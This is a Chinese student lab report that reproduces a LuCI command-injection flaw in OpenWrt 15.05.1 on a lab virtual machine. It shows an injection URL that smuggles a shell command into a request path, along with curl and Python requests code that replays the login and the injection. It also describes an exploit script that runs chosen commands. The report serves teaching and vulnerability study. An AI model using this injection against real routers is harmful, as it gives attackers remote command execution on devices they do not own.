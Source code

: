 # 第四章 移动通信安全概述实验

---

## 实验要求

* 复现 CVE-2019-1227漏洞

* 编写一个漏洞利用程序

---

## 实验环境

* OpenWrt 15.05.1

---

## 实验过程

### 环境搭建

*  下载安装存在该漏洞的 OpenWrt 15.05.1 的镜像版本,参考[移动互联网安全第一章实验](https://c4pr1c3.github.io/cuc-mis/chap0x01/exp.html)搭建

* OpenWrt 15.05.1虚拟机明细界面

![](img/虚拟机配置.png)

* OpenWrt 15.05.1虚拟机网络配置

![](img/网络配置.png)

### 漏洞复现

1. 使用管理员账号登录 LuCI

    * 登录界面

    ![](img/登录界面.png)

    * 登录后详细信息

    ![](img/详细界面.png)

2. 使用浏览器访问 `http://192.168.56.123/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞

![](img/触发漏洞.png)

3. 访问 `http://192.168.56.123/cmd.txt`看到漏洞复现效果

![](img/获取结果.png)

### 漏洞利用

1. 通过 Chrome 浏览器开发者工具的 `Copy as curl` 功能，将漏洞复现请求复制为 curl 命令

![](img/复制漏洞利用请求.png)

```
curl 'http://192.168.56.123/cgi-bin/luci/;stok=70876e68e5b961addd85f72368c3c82a/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  -H 'Cookie: sysauth=1544dc8df6ee151bdc8816bbef2dced1' \
  --compressed \
  --insecure
```

2. 通过[第三方网站](https://curl.trillworks.com/)将 curl 命令转换为 `Python requests` 代码

![](img/转换代码.png)

```
import requests

cookies = {
    'sysauth': '1544dc8df6ee151bdc8816bbef2dced1',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

response = requests.get('http://192.168.56.123/cgi-bin/luci/;stok=70876e68e5b961addd85f72368c3c82a/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt', headers=headers, cookies=cookies, verify=False)
```

3. 重新登录，获取漏洞重放所需的 `luci_username / luci_password` 的参数信息，同样转化为 Python request 代码

![](img/复制登录信息.png)

* curl命令

```
curl 'http://192.168.56.123/cgi-bin/luci' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://192.168.56.123' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://192.168.56.123/cgi-bin/luci' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  --data-raw 'luci_username=root&luci_password=' \
  --compressed \
  --insecure
```

* `Python requests` 代码

```
import requests

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.56.123',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.56.123/cgi-bin/luci',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

data = {
  'luci_username': 'root',
  'luci_password': ''
}

response = requests.post('http://192.168.56.123/cgi-bin/luci', headers=headers, data=data, verify=False)
```

4. 漏洞利用代码[exp.py](exp.py)

5. 在命令行中执行`python exp.py ifconfig`，命令行输出结果如下:

![](img/ifconfig.png)

6. 在命令行中执行`python exp.py id` 并使用网页访问http://192.168.56.123/cmd.txt ，漏洞已经实现

![](img/id.png)

---

## 参考资料

[CVE_2019_12272](https://c4pr1c3.gitee.io/cuc-mis/chap0x04/cve-2019-12272.html)

[移动互联网安全（2021）视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100&spm_id_from=pageDriver)

[shiancuc的chap0x04实验报告](https://github.com/CUCCS/2021-mis-public-shiancuc/tree/mis_chap0x04/chap0x04)

[ididChan的chap0x04实验报告](https://github.com/CUCCS/2021-mis-public-ididChan/blob/chap0x04/chap0x04/report/report0x02.md)
